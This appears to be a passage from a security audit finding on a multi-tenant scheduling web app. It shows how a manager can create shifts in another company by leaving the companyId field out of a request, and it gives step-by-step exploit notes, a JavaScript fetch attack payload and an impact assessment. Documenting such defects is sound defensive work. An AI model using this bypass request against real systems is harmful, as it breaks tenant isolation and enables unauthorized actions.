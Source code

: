 #### Attack Scenario

**Step-by-Step Exploit**:

```
1. Manager of Company A (ID=1) discovers shift type from Company B (ID=99)
   - Via leaked data (DEFECT-002) or by guessing common IDs

2. Manager crafts malicious request WITHOUT companyId field:
   POST /Calendar/Day?handler=Adjust
   {
       "shiftTypeId": 99,    // Company B shift type
       "delta": 1,
       "date": "2025-10-04"
       // NO companyId field - triggers bypass
   }

3. Server processing:
   - payload.companyId.HasValue == false
   - Validation block SKIPPED
   - targetCompanyId defaults to shift type's company (B)
   - Shift created in Company B

4. RESULT: Manager created shift in unauthorized company
```

**Attack Payload**:
```javascript
// Malicious request - omit companyId to bypass validation
fetch('/Calendar/Day?handler=Adjust', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'RequestVerificationToken': getAntiForgeryToken()
    },
    body: JSON.stringify({
        date: '2025-10-04',
        shiftTypeId: 99,     // Shift type from Company B
        delta: 1,
        concurrency: 0
        // ATTACK: Omit companyId field to bypass validation
    })
});
```

#### Impact Assessment

**Business Impact**:
- **Privilege Escalation**: Managers can create shifts in unauthorized companies
- **Data Integrity**: Cross-company contamination
- **Audit Failure**: Unauthorized actions not detected
- **Compliance**: Access control policy violations

**Technical Impact**:
- Authorization bypass via field omission
- Multi-tenant boundary violation
- Potential for cross-company scheduling chaos
